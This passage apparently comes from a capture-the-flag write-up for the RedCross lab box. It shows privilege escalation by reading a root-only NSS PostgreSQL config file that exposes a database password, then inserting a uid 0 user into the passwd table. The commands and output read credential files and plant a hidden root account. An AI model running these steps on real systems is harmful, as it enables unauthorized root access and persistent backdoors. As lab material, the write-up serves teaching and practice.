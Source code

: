     ro0xdft@redcross:~$ ls -l root.txt 
    -rw------- 1 root root 33 Jun  8  2018 root.txt
    

#### Find psql Configs

The jail in use here is based on something called Name Service Switch, which
allows you to store user and group information in a database. PostgreSQL has a
plugin for this (here’s an [interesting
blog](http://www.karoltomala.com/blog/?p=869) for more reading).

There are two configuration files the article lists that define querying
information from the database and feeding it to NSS: `nss-pgsql.conf` and
`nss-pgsql-root.conf`. I can see both of those on RedCross:

    
    
    ro0xdft@redcross:/etc$ ls -l nss-pgsql*
    -rw-r--r-- 1 root root 1341 Jun  8  2018 nss-pgsql.conf
    -rw-rw---- 1 root root  540 Jun  8  2018 nss-pgsql-root.conf
    

While `nss-pgsql.conf` has information I was already aware of, I’ll find a new
user for the database, unixnssroot, in `nss-pgsql-root.conf`:

    
    
    ro0xdft@redcross:/etc$ cat nss-pgsql-root.conf 
    shadowconnectionstring = hostaddr=127.0.0.1 dbname=unix user=unixnssroot password=30jdsklj4d_3 connect_timeout=1
    shadowbyname = SELECT username, passwd, date_part('day',lastchange - '01/01/1970'), min, max, warn, inact, expire, flag FROM shadow_table WHERE username = $1 ORDER BY lastchange DESC LIMIT 1;
    shadow = SELECT username, passwd, date_part('day',lastchange - '01/01/1970'), min, max, warn, inact, expire, flag FROM shadow_table WHERE (username,lastchange) IN (SELECT username, MAX(lastchange) FROM shadow_table GROUP BY username);
    

#### Add root User

Now I can connect to the database using the unixnssroot user and password from
the config file:

    
    
    ro0xdft@redcross:/etc$ psql -h 127.0.0.1 -U unixnssroot -p 5432 -d unix
    Password for user unixnssroot: 
    psql (9.6.7)
    SSL connection (protocol: TLSv1.2, cipher: ECDHE-RSA-AES256-GCM-SHA384, bits: 256, compression: off)
    Type "help" for help.
    
    unix=>
    

This user can add a user with user id 0 (root):

    
    
    unix=> insert into passwd_table (username, passwd, uid, gid, homedir) values ('r0xdfot', '$1$wV7CPbj9$59kAklYgquXe5TuJYIT591', 0, 0, '/root');
    INSERT 0 1
    